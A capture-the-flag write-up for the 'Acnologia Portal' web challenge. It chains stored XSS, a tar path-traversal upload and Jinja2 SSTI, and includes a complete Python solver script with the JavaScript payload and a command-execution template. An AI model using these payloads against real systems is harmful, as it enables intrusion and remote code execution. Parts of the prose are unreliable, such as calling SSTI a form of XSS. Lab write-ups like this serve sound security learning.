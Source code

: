 ## Acnologia Portal

## Challenge Author(s):

Ulysses

## Description:

Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?



# Target: docker ip on demand

## Difficulty/Points: 350/easy

## Flag: HTB{des3r1aliz3_4all_th3_th1ngs}


## Challenge

the challenge has a login page and a registration page. you can register as a new user and enter the portal. The page is presented with a table containing various information and a button for reporting problems. By pressing the button, a form appears to be filled in.

# Solution 

First, having the source code available I made sure that the login and registration form had special vulnerabilities but this was not the case, they are secure pages. Continuing with my investigation I try to understand what the report form does by testing its security in sending the information to the server. We note from the source code that there are endpoints tied to the admin that could be used to make requests on its behalf. This makes me think that somehow it is possible to contact the server as an admin and therefore perhaps some sort of XSS can be implemented. I immediately thought about how this could be done by reading the source code and realised that by sending an XSS paylaod via the form I could contact pipedream (webhook for listening to HTTP requests). Unfortunately, it is not enough to perform an XSS, but I have to do a lot more to capture the flag which is hidden in the server in a folder of the root user. the XSS is important because I have to be able to perform operations on behalf of the admin and not on my own which I do not have the necessary privileges to perform the right operations. In the html of the response generated by the form request there is this particular tag that catches my eye:
<p class="card-text">Issue : {{ report.issue | safe }} </p>.
this html tag is very interesting, it's saying that the value contained within the issue field in the report post will not be put to any filter so if I put in report.issue=xss I will have my first successful attack. The second part requires a lot more attention to the source code. The second part of the attack lies in the endpoint used to make file uploads. This endpoint is not used by html pages, but we can use it if we use the first part of the attack to authenticate as admin. Authentication as admin is done using a form of 'advanced XSS' if we want to call it that, i.e. an SSTI. Compared to XSS, many things change, because XSS is mainly based on the execution of client code interpreted by the browser so we cannot do many of the things we are interested in. XSS is used to post to one of our webhooks, for example, while SSTI is used to run python source code on the server. If the server is running python code it will certainly have admin credentials and we can then take advantage of the upload endpoint. Once the paylaod containing the SSTI is generated, we name it after one of the html files already present such as register.html. Inside register.html we will find the contents of our executed code, i.e. the flag. SSTI is possible thanks to a special handling performed by a function called from the upload endpoint. The function uses a special library for managing tar files. The function allows the extraction of submitted files, but does not check to see where the final extracted file may be located. If an absolute path is added as a file name, it will be interpreted as an absolute storage path and I will be able to store my SSTI payload within the registration page. The XSS contains a function to dynamically send a file since I will have no way to control the server's browser and do the operations by hand. This part of the XSS is needed to be authenticated as admin and store the SSTI instead of the registration page.

```python
 import requests,base64,time,sys

url="178.62.83.221:31225"

filename="/app/application/templates/register.html"
base64_payload=base64.b64encode("{{url_for.__globals__['os'].popen('cat /flag.txt').read()}}".encode("utf-8")).decode("utf-8")

payload="""

<script>
const b64toBlob = (b64Data, contentType='', sliceSize=512) => {
  const byteCharacters = atob(b64Data);
  const byteArrays = [];

  for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
    const slice = byteCharacters.slice(offset, offset + sliceSize);

    const byteNumbers = new Array(slice.length);
    for (let i = 0; i < slice.length; i++) {
      byteNumbers[i] = slice.charCodeAt(i);
    }

    const byteArray = new Uint8Array(byteNumbers);
    byteArrays.push(byteArray);
  }

  const blob = new Blob(byteArrays, {type: contentType});
  return blob;
}

const blob = b64toBlob("*BASE64_PAYLOAD*", "");


myFormData = new FormData();
myFormData.append("file", blob, "*FILENAME*");
fetch("http://*URL*/api/firmware/upload", {
    method: "post",
    body: myFormData,
    credentials: "include",
    mode: "no-cors"
});
</script>

""".replace("*URL*","localhost:1337").replace("*BASE64_PAYLOAD*",base64_payload).replace("*FILENAME*",filename)
payload_xss=payload
session = requests.session()

burp0_url = "http://{}/api/register".format(url)
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://192.168.1.14:1337", "Referer": "http://192.168.1.14:1337/register", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"password": "asd", "username": "asd"}
session.post(burp0_url, headers=burp0_headers, json=burp0_json)

burp0_url = "http://{}/api/login".format(url)
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://192.168.1.14:1337", "Referer": "http://192.168.1.14:1337/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"password": "asd", "username": "asd"}
session.post(burp0_url, headers=burp0_headers, json=burp0_json)


burp0_url = "http://{}/api/firmware/report".format(url)
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://192.168.1.14:1337", "Referer": "http://192.168.1.14:1337/dashboard", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"issue": payload_xss, "module_id": "1"}
r=session.post(burp0_url, headers=burp0_headers, json=burp0_json)
print(r.text)

time.sleep(5)

print(requests.get("http://{}/register".format(url)).text)
```

the flag will be received printed in the register page.